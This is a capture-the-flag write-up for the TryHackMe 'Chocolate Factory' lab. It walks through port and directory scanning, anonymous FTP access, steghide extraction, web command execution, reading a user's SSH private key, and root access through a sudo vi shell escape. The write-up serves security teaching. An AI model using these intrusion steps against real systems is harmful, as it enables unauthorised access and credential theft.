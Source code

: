 ```yaml
---
layout: default
title: TryHackMe Chocolate Factory WriteUp
date: 2024-02-28 17:00:00 +0300
categories: [writeups]
tag: [thm,boxes]
---
```


# TryHackMe Chocolate Factory WriteUp

## **Reconnaissance and Enumeration**

#### first we scan the machine using nmap using the command: nmap -sV [IP HERE]

#### **nmap scan:**

```bash
21/tcp  open  ftp        vsftpd 3.0.3

22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))

100/tcp open  newacct?

106/tcp open  pop3pw?

109/tcp open  pop2?

110/tcp open  pop3?

111/tcp open  rpcbind?

113/tcp open  ident?

119/tcp open  nntp?

125/tcp open  locus-map?
```

#### **ftp enumeration:**
#### we login to ftp using username: "anonymous" and password: "anonymous"

#### in ftp found "gum_room.jpg"

#### used steghide to extract it: "steghide extract -sf gum_room.jpg"

#### didnt put passphrase, b64.txt extracterd.

#### found what looks like a /etc/shadow file. didnt find anything usefull.

#### **web enumeration:**

#### we open the webpage and find a login portal.

#### i used gobuster to enumrate directories.

```bash
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"

gobuster: the name of the tool.
 
dir: specify we want to bruteforce directiories.

-u: specify the url

-w: specify the world list

-x: look for filees with exstinsions.
```
#### **result:**

```bash
/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

/index.html           (Status: 200) [Size: 1466]

/home.php             (Status: 200) [Size: 569]

/validate.php         (Status: 200) [Size: 93]
```
--------------------------
## **Initial Access:**

#### we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

#### we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

#### it works!
#### we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

#### found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

```bash
"cat /home/charlie/teleport"
```
#### Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

#### i copied it into id_rsa file then give it the right permissions using `chmod +600`
#### test if we can login using ssh to the user.
#### the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

#### in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

#### changed the permissions using `chmod +x key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

#### since its a binary, we can check the file contents using `strings key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

#### got the key! 
`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`

#### in /var/www/html we `cat` validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

#### run validate.php , bingo we got charlies password :)

#### login to charlies account using "su charlie".
#### user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

------------
## **Privilege Escalation:**

#### The first thing you should check for is `sudo -l`,
#### result:

```bash 
Matching Defaults entries for charlie on chocolate-factory:
   env_reset, mail_badpass,
   
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    
   (ALL : !root) NOPASSWD: /usr/bin/vi
```


#### in gtfobins, `vi -c ':!/bin/sh' /dev/null`

#### i ran it with sudo so if it works we could get root privileges `sudo vi -c ':!/bin/sh' /dev/null`

```bash
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```

#### pwned!!
-----
## **Finding the root flag:**

#### we find root.py
#### we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

#### Happy Pwning :)
